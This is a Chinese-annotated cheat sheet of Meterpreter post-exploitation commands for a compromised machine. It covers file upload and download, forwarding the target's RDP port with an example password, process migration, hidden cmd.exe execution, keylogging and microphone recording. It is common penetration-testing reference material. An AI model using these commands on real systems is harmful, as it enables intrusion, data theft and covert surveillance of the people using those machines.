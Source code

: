 ```shell
# 基本命令
background			# 让meterpreter处于后台模式

quit				# 退出session

shell				# 获取shell权限

irb					# 开启ruby终端

# 文件系统命令
getwd 				# 查看当前工作目录  

upload 				 # 上传文件到目标机上  

download 			# 下载文件到本机上  

edit 				# 编辑文件  

search  			# 搜索文件

# 网络命令 
ipconfig | ifconfig # 查看网络接口信息  

arp					# 查看arp表

route				# 查看路由

getproxy			# 获取代理

portfwd  add -l 4444 -p 3389 -r 192.168.1.102 # 端口转发，本机监听4444，把目标机3389转到本机4444 
rdesktop -u Administrator -p ichunqiu 127.0.0.1:4444 #然后使用rdesktop来连接，-u 用户名 -p 密码
route 				# 获取路由表信息

# 系统命令
ps 							# 查看当前活跃进程 

migrate [pid] 				# 将Meterpreter会话移植到进程数位pid的进程中 

execute -H -i -f cmd.exe 	# 创建新进程cmd.exe，-H不可见，-i交互 

getpid 						# 获取当前进程的pid 

kill [pid] 					# 杀死进程 

getuid 						# 查看权限 

sysinfo 					# 查看目标机系统信息，如机器名，操作系统等 

shutdown					# 关机

# 实用功能
enumdesktops				# 用户登录数

keyscan_dump				# 键盘记录－下载

keyscan_start				# 键盘记录　－　开始

keyscan_stop				# 键盘记录　－　停止

uictl						# 获取键盘鼠标控制权

record_mic					# 音频录制

```